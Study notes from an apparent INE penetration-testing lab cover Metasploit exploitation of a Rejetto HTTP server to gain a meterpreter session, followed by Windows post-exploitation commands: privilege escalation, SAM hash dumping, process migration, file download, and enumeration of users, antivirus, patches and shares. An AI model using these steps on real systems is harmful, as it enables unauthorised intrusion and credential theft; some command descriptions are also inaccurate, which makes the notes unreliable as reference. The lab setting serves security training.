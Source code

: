 ### Windows Post Exploitation Modules
- The MSF provides us with various post exploitation modules for both windows and linux
- We can utilize these post exploitation modules to enumerate information about the windows system we currently have access to:
+ Enumerate user privileges
+ Enumerate logged on users
+ VM check
+ Enumerate installed programs
+ Enumerate AVs
+ Enumerate computers connected to domain
+ Enumerate installed patches
+ Enumerate shares


#### lab
- service postgresql start
- msfconsole
- workspace -a windows_post
- setg demo.ine.local
- db_nmap -sv demo.ine.local
- search rejetto [ as http server is running rejetto  ]
- use 0
- set everyting requires
- run
- this give us meterpreter session
- help [ all the help menu for meterpreter sessions ]
#### post exploit commands
- getsystem [ get the system info ]
- getuid [ get the user autority checks ]
- hashdump [ this will dump all the hashes of sam database if it accessible ]
- ps [ list all the running process ]
- migrate 113 [ we can migrate using process id ]
- cd [ for changing directory ]
- download flag.txt [ downloading file ]
#### using modules
- background the meterpreter sessions
- search migrate [ for changing architecture ]
- search win_privs [ for windows privilege escalation ]
- search enum_logged_on [ to find what users are logged on on the system ]
- search checkvm [ for checking if any vm is installed on the system ]
- search enum_applications [ to look for installed applications on the system ]
- loot [ this show all the data saved in msf database ]
- search type:post platform:windows enum_av [ for finding antivirus solutions ]
- search enum_computer [ to list all the computer part of domain ]
- search enum_patches [ finding all installed patches ]
- search enum_shares [ listing all the shares ]
- search rdp platform:windows [ searching rdp ]
- 



